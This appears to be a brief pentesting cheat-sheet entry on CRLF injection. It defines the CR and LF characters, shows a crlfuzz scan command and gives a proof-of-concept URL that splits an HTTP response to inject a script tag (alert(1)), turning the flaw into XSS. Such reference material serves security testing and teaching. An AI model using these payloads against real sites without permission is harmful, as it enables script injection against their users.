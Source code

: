 +++
title = 'CRLF'
+++

Carriage Return Line Feed

```
Carriage Return = ASCII 13, \r, %0D
Line Feed = ASCII 10, \n, %0A
```

## Tools

```
# https://github.com/dwisiswant0/crlfuzz
crlfuzz -u "http://example.com"
```

## POC

CRLF to XSS

```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
